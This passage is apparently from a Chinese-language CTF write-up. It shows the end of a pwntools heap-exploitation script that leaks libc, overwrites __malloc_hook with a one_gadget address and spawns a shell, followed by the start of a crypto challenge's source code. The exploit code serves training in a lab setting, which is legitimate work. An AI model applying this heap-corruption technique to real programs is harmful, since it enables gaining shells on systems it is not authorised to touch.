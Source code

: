 ```
edit(0x20,p64(0)*3+p64(0xfe1))
add(0xff0,'a')
add(0x60,'x00')
show()
re = u64(p.recv(8))  
libc_address =re - 0x3c5100
print hex(re)
print hex(libc_address)
raw_input()
dele()
edit(0x60,p64(libc_address+0x3c4b10-0x13))

#one = 0x45216
#one = 0x4526a
one = 0xf02a4
#one = 0xf1147

add(0x60,'a')
add(0x60,'a'*3+p64(one+libc_address))

p.interactive()
```

而后 interactive中调用 malloc，getshell，输入token即可



## Crypto

### <a class="reference-link" name="CoCo"></a>CoCo

稍微美化一下代码（改变一下变量），代码如下：

```
from Crypto.Util.number import *
from Crypto.Random.random import *
from flag import flag

a = getStrongPrime(1024)
b = getStrongPrime(1024)
c = getStrongPrime(1024)

def gcd(Co, CoCo):
    while CoCo: Co, CoCo = CoCo, Co % CoCo
    return Co

def pow(n, CoCo, CoCoCo):
    tmp = 1
    while CoCo != 0:
        if (CoCo &amp; 1) == 1:
            tmp = (tmp * n) % CoCoCo
        CoCo &gt;&gt;= 1
        n = (n * n) % CoCoCo
    return tmp

d = pow(c, a, b)
while True:
    f = randint(1, 2 ** 512)
    if gcd(f, b - 1) == 1:
        break
g = pow(c, f, b)
m1 = bytes_to_long("CoCoCoCoCoCoCoCoCoCoCoCoCoCoCoCoCoCoCoCoCoCoCoCo")
c1 = (m1 * pow(d, f, b)) % b
m2 = bytes_to_long(flag)
```